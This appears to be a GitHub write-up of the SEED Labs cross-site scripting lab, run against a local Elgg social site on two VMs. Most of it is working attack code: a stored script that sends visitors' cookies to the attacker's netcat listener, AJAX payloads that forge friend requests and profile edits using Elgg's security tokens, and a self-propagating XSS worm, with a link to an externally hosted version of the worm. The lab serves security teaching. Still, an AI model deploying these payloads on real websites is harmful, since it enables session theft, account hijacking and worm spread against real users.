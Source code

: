 # Cross_Site_Scripting_Attack-SEED_LAB
2 VMs:

. attacker: 10.0.2.15
. server: 10.0.2.4

Edit the DNS record in /etc/hosts on the attacker:

  10.0.2.4       www.xsslabelgg.com

Read the file /etc/apache2/sites-available/000-default.conf:

	<VirtualHost *:80>
	        ServerName http://www.xsslabelgg.com
	        DocumentRoot /var/www/XSS/Elgg
	</VirtualHost>

It shows that the sources of website http://www.xsslabelgg.com are hosted in /var/www/XSS/Elgg



### Task 1

For Firefox, Web Developer -> Network is also useful.


### Task 1.1


Log in with account alice and password seedalice, then edit Brief description module in Profile as:

	<script>
	  alert("XSS");
	</script>

And save it.

Now, access http://www.xsslabelgg.com/profile/alice from either the server or the attacker, an alert prompts:



![alt text](https://github.com/abdul9255/Cross_Site_Scripting_Attack-SEED_LAB/blob/main/1.png)



### Task 2


Edit the Brief description module and save:


  <script>
	  alert(document.cookie);
	</script>


When accessing the profile page, it will show the cookie of the log-in user.
When Boby opens the page, it will be

![alt text](https://github.com/abdul9255/Cross_Site_Scripting_Attack-SEED_LAB/blob/main/2.png)

For Alice herself:

![alt text](https://github.com/abdul9255/Cross_Site_Scripting_Attack-SEED_LAB/blob/main/3.png)

### Task 3

Edit the Brief description as:

	<script>
	  document.write(
	    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
	  );
	</script>

It will send an HTTP GET request to the port 5555 on the attacker with document.cookie whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

	nc -l 5555 -v

Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM 10.0.2.4, then it will appear on the attacker:


![alt text](https://github.com/abdul9255/Cross_Site_Scripting_Attack-SEED_LAB/blob/main/4.png)



### Task 4

Try to log in as alice and add samy as a friend, during the process, network tool captures the request:

HTTP header:


Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive

So construct the payload that forges the user's friend request as:

  <script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>

Log in with username samy and password seedsamy.

Add the code above in Profile -> About me by edit html mode.

Now on the VM 10.0.2.4, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.



#Task 5



When editing a user's (Alice) own profile legally, the network tool captures such an HTTP POST request:

Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1

Then edit Samy's profile and figure out his guid as 47


![alt text](https://github.com/abdul9255/Cross_Site_Scripting_Attack-SEED_LAB/blob/main/5.png)

Now we want to modify the about me module in the profile of someone as "modified by Samy" if he/she visits Samy's profile page. Save the code below as Samy's profile:


<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:



![alt text](https://github.com/abdul9255/Cross_Site_Scripting_Attack-SEED_LAB/blob/main/6.png)



### Task 6

To make the code in Task 5 self-propogating:

###DOM Approach
Do some subtle modification based on the code in Task 5:

<script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.



#Link Approach

Write the JavaScript file xssworm.js and store it in the external link https://cdn.jsdelivr.net/gh/li-xin-yi/seedlab@latest/Cross-Site-Scripting-Attack/xssworm.js
